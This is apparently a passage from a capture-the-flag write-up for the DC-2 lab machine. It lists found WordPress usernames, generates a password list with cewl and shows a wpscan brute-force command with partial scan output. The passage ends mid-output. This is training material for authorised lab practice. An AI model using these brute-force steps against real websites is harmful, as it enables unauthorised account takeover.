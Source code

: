 We managed to find three users

| Users |
| ----- |
| admin |
| tom   |
| jerry |

Let's save these usernames in the `users.txt` file.

### Generating passwords using cewl

Now, we can use the `cewl` utility to generate password list for the users we found.

```
$ cewl http://dc-2/ -w passwords.txt
```

&nbsp;

## Exploitation

### Brute forcing credentials using WPScan

Again, using the `wpscan` utility we can brute force the login.

```txt
$ wpscan --url http://dc-2 -U user.txt -P passwords.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://dc-2/ [192.168.240.194]
[+] Started: Wed May  1 19:18:18 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.10 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://dc-2/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://dc-2/readme.html
 | Found By: Direct Access (Aggressive Detection)
```